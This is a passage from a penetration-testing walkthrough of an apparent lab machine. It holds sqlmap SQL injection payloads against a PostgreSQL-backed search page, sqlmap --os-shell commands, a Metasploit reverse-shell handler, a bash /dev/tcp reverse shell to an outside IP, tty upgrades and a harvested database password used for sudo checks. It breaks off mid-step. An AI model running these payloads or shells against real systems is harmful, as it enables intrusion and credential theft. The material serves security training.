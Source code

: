 		    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
		    Payload: search=a' AND (SELECT (CASE WHEN (6618=6618) THEN NULL ELSE CAST((CHR(72)||CHR(84)||CHR(90)||CHR(68)) AS NUMERIC) END)) IS NULL-- HbYa
		
		    Type: error-based
		    Title: PostgreSQL AND error-based - WHERE or HAVING clause
		    Payload: search=a' AND 9347=CAST((CHR(113)||CHR(120)||CHR(98)||CHR(122)||CHR(113))||(SELECT (CASE WHEN (9347=9347) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(120)||CHR(122)||CHR(113)) AS NUMERIC)-- pilT
		
		    Type: stacked queries
		    Title: PostgreSQL > 8.1 stacked queries (comment)
		    Payload: search=a';SELECT PG_SLEEP(5)--
		
		    Type: time-based blind
		    Title: PostgreSQL > 8.1 AND time-based blind
		    Payload: search=a' AND 2680=(SELECT 2680 FROM PG_SLEEP(5))-- vQzW
		---
		[14:41:29] [INFO] the back-end DBMS is PostgreSQL
		back-end DBMS: PostgreSQL
		[14:41:30] [INFO] fetched data logged to text files under '/home/kali/.sqlmap/output/10.10.10.46'
		
		[*] ending @ 14:41:30 /2020-05-04/
		```
		Sqlmap found the page to be vulnerable to multiple injections, and identified the backend DBMS to be PostgreSQL. Getting code execution in postgres is trivial using the `--os-shell` command.
	* Exploit: `sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=0fn7flfi1tt116v52ahvfh8in3" --os-shell` --os-pwn
		Result: Failed forever
	* Exploit 2: `sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=0fn7flfi1tt116v52ahvfh8in3" --os-shell --safe-url http://google.com --keep-alive --dbms PostgreSQL --safe-freq 3`
		Result: Popped a shell
	* Let's upgrade to a tty shell and continue enumeration: `SHELL=/bin/bash script -q /dev/null`
	* Form reverse meterpreter
		```
		sudo msfconsole
		use exploit/multi/handler
		set lhost 10.10.15.117
		set lport 46152
		set payload linux/x86/shell/reverse_tcp
		run
		```
	* Bash reverse shell
		```
		bash -c 'bash -i >& /dev/tcp/10.10.15.117/46152 0>&1'
		```

6. Privilege Escalation
	1. Looking at the source code of dashboard.php in /var/www/html reveals the postgres password to be: P@s5w0rd!.
	2. Looking at the source code of dashboard.php in `/var/www/html` reveals the postgres password to be: `P@s5w0rd!`.
		```
		try {
          $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
        }
		```
	3. Run `SHELL=/bin/bash script -q /dev/null` again or try `python3 -c 'import pty; pty.spawn("/bin/bash")'`
	4. This password can be used to view the user's sudo privileges: `sudo -l`:
		```
		sudo -l
		[sudo] password for postgres: P@s5w0rd!
		